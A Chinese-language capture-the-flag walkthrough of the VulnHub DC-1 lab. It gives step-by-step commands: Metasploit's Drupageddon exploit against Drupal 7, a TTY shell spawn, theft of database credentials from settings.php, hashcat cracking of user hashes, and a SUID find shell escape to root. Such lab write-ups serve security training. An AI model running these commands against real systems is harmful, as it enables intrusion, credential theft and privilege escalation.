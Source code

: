 # DC 1

## 环境准备

* 镜像地址：https://www.vulnhub.com/entry/dc-1,292/

## 知识点

* drupal漏洞利用
* linux提权-suid提权
* hashcat跑密码

## 信息收集

1.IP探测

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 192.168.2.0/24 # IP探测 扫描本地C段的网络端口信息
```

![image](img/vulnhub-dc1-1.png)

2.扫描目标全端口

```bash
nmap -T5 -A -v -p- 192.168.2.22
nmap 192.168.2.22
```

![image](img/vulnhub-dc1-2.png)

可以扫出 22 80 111三个端口

## 漏洞利用

访问80端口发现服务为drupal 7

```
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.2.22
run
```

![image](img/vulnhub-dc1-3.png)

利用成功弹回meterpreter会话,然后cmd shell下

```
shell
```

![image](img/vulnhub-dc1-4.png)

getshell后第一件事是使用python命令获取一个正常的tty,否则有些命令可能无法执行。

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### 0x01-flag1

目前权限是www-data,读取flag1.txt,估摸着是权限不够，只读取到一个flag1.txt,读取flag1.txt

```bash
find / -name flag*
cat flag1.txt
```

![image](img/vulnhub-dc1-5.png) ![image](img/vulnhub-dc1-6.png)

提示CMS的配置文件有东西

### 0x02-flag2

google搜索drupal数据库配置文件(配置文件不存在，所以搜的数据库文件)

```bash
find /var -name settings.php
cat /var/www/sites/default/settings.php
```

![image](img/vulnhub-dc1-7.png)

可以看到flag2的内容以及mysql的数据库账号密码，尝试登录数据库

### 0x03-flag3

```bash
mysql -udbuser -pR0ck3t
use drupaldb
show tables
```

![image](img/vulnhub-dc1-8.png)

尝试读取users表

```
select * from users;
select name,pass from users;
```

![image](img/vulnhub-dc1-9.png)

接着用hashcat爆破跑密码的hash的明文，需要先知道drupal的hash id

```bash
hashcat --help | grep "Drupal"  # 获得7900
```

hash保存源文件

```bash
echo "\$S\$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR" > source.txt
echo "\$S\$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg" >> source.txt
```

接着爆破需要密码表，这里我用的我团队的字典项目

* https://github.com/ffffffff0x/AboutSecurity/tree/master/Dic/Auth/password

```
hashcat -m 7900 -a 0 source.txt pass01.txt

-m 指定要破解的 hash 类型，如果不指定类型，则默认是 MD5
-a 指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
source.txt 你要爆破的 hash 列表
pass01.txt 你的密码表
```

kali虚拟机跑不起来，问了朋友说是虚拟机显卡问题，在我自己Windows跑了下没问题。

![image](img/vulnhub-dc1-10.png)

可以看到分别跑出密码为:53cr3t和Mypassword,第一个拿去登录网站admin/53cr3t,在dashborad发现flag3

![image](img/vulnhub-dc1-11.png)

翻译就是：特殊权限将有助于查找密码 - 但您需要 -exec 该命令才能确定如何获取隐藏中的内容

### 0x04-flag4

```bash
cat /etc/passwd
```

![image](img/vulnhub-dc1-12.png)

发现flag4用户，读取

```bash
cat /home/flag4/flag4.txt
```

```
Can you use this same method to find or access the flag in root?
Probably. But perhaps it's not that easy.  Or maybe it is?
```

提示需要提权

### 0x05-flag5

考点：find的suid提权

```bash
find / -perm -u=s -type f 2>/dev/null

两种方法：
find . -exec /bin/sh \;  # 直接提权
find flag4.txt -exec "/bin/sh" \; 
ls /root
cat /root/thefinalflag.txt
```

![image](../../shen-tou-ce-shi/heng-xiang-yi-dong/img/vulnhub-dc1-13.png) ![image](img/vulnhub-dc1-14.png)

提权成功，得到flag5

## 参考链接

* https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC1-WalkThrough.md
* https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/kh0cna
